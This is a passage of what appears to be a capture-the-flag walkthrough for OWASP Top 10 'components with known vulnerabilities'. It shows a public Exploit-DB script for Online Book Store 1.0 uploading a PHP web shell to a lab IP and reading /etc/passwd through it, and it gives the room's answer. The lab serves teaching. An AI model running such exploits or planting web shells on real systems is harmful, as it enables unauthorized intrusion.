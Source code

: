 ![](https://i.imgur.com/Ht7uc6G.png)

Fortunately for us, the error was caused by an line that should have been commented, so it's an easy fix.

![](https://i.imgur.com/x1lHJod.png)

Fixing that, let's try and run the program again.

Boom! We have RCE. Now it's important to note here that most scripts will just tell you what arguments you need to provide, exploit developers will rarely make you read potentially hundreds of lines of codes just to figure out how to use the script.

It is also worth noting that it may not always be this easy, sometimes you will just be given a version number like in this case, but other times you may need to dig through the HTML source, or even take a lucky guess on an exploit script, but realistically if it is a known vulnerability, there's probably a way to discover what version the application is running.

That's really it, the great thing about this piece of the OWASP 10, is that the work is pretty much already done for us, we just need to do some basic research, and as a penetration tester, you're already doing that quite a bit :).

1. Read the above!

`No answer needed`

## [Day 9] Components With Known Vulnerabilities - Practi...

The following is a vulnerable application, all information you need to exploit it can be found online.

Note: When you find the exploit script, put all of your input in quotes, for example "id"

1. How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

- [Online Book Store 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/47887)

```
python3 47887.py http://10.10.243.197/

> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.243.197/bootstrap/img/2s5yhbfXdq.php
> Example command usage: http://10.10.243.197/bootstrap/img/2s5yhbfXdq.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y

RCE $ wc -c /etc/passwd
1611 /etc/passwd
```

`1611`

## [Day 10] Insufficient Logging and Monitoring
